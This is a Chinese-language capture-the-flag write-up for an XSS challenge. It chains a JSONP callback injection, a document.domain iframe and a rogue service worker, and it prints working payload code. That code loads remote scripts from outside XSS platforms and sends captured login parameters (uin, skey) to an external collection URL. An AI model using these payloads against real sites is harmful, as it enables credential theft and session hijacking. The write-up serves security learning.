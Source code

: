 **JSONP 返回的 Content-Type 必须是 JS 类型**可能这是突破口

然后绕过js代码长度限制的方法就是引入外部的js：`callback=importScripts('//xlcxss.sinaapp.com/xss/sw.js');`

大致解题流程如下:

1.查看页面源代码，找到题目的突破口

2.本题的思路逻辑是：在登陆界面存在着xss注入，通过在这个界面的`document.domain`和jsonp来进行跨域操作，来在本地先进行对请求的hook，抓取请求中的账户名和密码（这个题是通过get请求进行验证的），在这里完成payload的构造后，再去向站长提交问题，注意这个URL的正确提交，后面带上callback进行xss注入，然后爆破验证码就可以了，最后查看账号密码进行登陆

3.大骂一下啊，现在网上的alji免费xss平台，做的太拉垮，但是谁叫我没有vps呢？

下面贴上代码，使用的是xs.sb平台

```
这是操作文件
self.addEventListener('fetch', function (event) {
        console.log(event.request);
        event.respondWith(
        caches.match(event.request).then(function(res){
        return requestBackend(event);
        })
        )
   });
function requestBackend(event){
        var url = event.request.clone();
        console.log(url);
        return new Response("<script>var a =location.search; a =a.replace('?','');a=a.replace('&','');var b=a.substring(0,a['length']/2);var c=a.substring(a['length']/2,a['length']);location='https://xsshs.cn/xss.php?do=api&id=pNII&uin='+b+'&skey='+c;</script>", {headers: { 'Content-Type': 'text/html' }})
}
```

```
入口文件
document.domain = "hardxss.xhlj.wetolink.com";
var iff = document.createElement('iframe');
iff.src = 'https://auth.hardxss.xhlj.wetolink.com/';
iff.addEventListener("load", function(){ iffLoadover(); });
document.body.appendChild(iff);
exp = `navigator.serviceWorker.register("/api/loginStatus?callback=self.importScripts('//xs.sb/l6s9')//")`;
function iffLoadover(){
    iff.contentWindow.eval(exp);
}
```

md5爆破文件就不上传了，感谢赵总，爱了爱了